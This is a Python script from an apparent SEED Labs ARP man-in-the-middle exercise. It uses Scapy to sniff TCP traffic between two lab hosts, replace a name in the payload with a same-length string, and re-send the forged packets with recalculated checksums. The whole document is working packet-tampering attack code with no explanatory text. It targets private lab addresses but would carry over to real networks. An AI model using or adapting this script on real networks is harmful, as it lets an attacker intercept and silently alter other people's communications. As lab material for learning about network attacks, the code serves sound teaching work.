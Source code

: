 #### Python [ARP-MITM-Attack-Name.py](https://github.com/tyletran08/seed-lab-arp-attack/blob/main/python/ARP-MITM-Attack-Name.py)
```python
from scapy.all import *

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"

MY_NAME = b"Tyler"                     # Name to be replaced with "A"
REPLACE = b"A" * len(MY_NAME)          # Same-length replacement

def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        # Create a new packet based on the captured one.
        # 1)    We need to delete the checksum in the IP & TCP headers,
        #       because our modification will make them invalid.
        #       Scapy will recalculate them if these fields are missing.
        # 2)    We also delete the original TCP payload.
        newpkt = IP(bytes(pkt[IP]))
        del newpkt.chksum
        del newpkt[TCP].chksum
        del newpkt[TCP].payload
        
        #################################################################
        # Construct the new payload based on the old payload.

        if pkt[TCP].payload:
            data = pkt[TCP].payload.load    # The original payload data
            if MY_NAME in data:
                newdata = data.replace(MY_NAME, REPLACE)  # Replace name only
            else:
                newdata = data  # Leave unchanged if name not found

            send(newpkt/newdata)
            
        else:
            send(newpkt)
        #################################################################

    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        # Create new packet based on the captured one
        # Do not make any change

        newpkt = IP(bytes(pkt[IP]))
        del newpkt.chksum
        del newpkt[TCP].chksum
        send(newpkt)

f = 'tcp and not src host 10.9.0.105'
pkt = sniff(iface="eth0", filter=f, prn=spoof_pkt)

```
